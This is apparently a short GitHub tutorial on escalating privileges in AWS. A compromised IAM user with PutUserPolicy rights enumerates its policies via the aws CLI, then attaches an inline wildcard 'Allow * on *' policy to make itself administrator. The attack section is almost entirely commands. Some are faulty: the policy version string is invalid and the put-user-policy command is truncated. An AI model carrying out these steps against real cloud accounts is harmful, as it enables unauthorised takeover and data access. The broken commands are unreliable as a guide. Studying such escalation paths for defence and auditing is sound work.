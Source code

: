 # Privilege Escalation

### Privilege escalation on AWS is based on misconfigurations, if we have more permissions than necessary, its possible to obtain higher privileges.

## Study case

### A user was compromised with the List Policy and Put User Policy permissions, an attacker could leverage this Put User privilege to add an inline administrator to itself, making it administrator of the instance.

## Exploitation

#### 1) Getting the IAM user

 - aws sts get-caller-identity

#### 2) Listing policies attached to a user

 - aws iam list-attached-user-policies --user-name EXAMPLE_NAME -- profile EXAMPLE_PROFILE

#### 3) Retrieving information about a specific policy

 - aws iam get-policy --policy-arn POLICY_ARN

### If there are more than one version of the policy, we can also list them

 - aws iam list-policy-versions --policy-arn POLICY_ARN

### Now we can finally retrieve the contents of the policy

 - aws iam get-policy-version --policy-arn EXAMPLE_ARN --version-id ID_EXAMPLE

#### It's important to use the command above to chech the information about the default policy

## Escalation

### If we have the PutUserPolicy is enabled, we can add an inline administrator policy to our user.

## Administrator Policy Example:

{
"Version": "2021-10-17",
"Statement" : [
{
"Effect":"Allow",
"Action": [
"*"
],
"Resource":[
"*"
]
    }
  ]
}

### Attaching this policy into our user

 - aws iam put-user-policy --user-name EXAMPLE_USERNAME --policy-name EXAMPLE_NAME --

### Listing inline policies of our user

 - aws iam list-user-policies --user-name EXAMPLE_NAME

### Listing a restricted resource (Example S3)

 - aws s3 ls --profile EXAMPLE_PROFILE
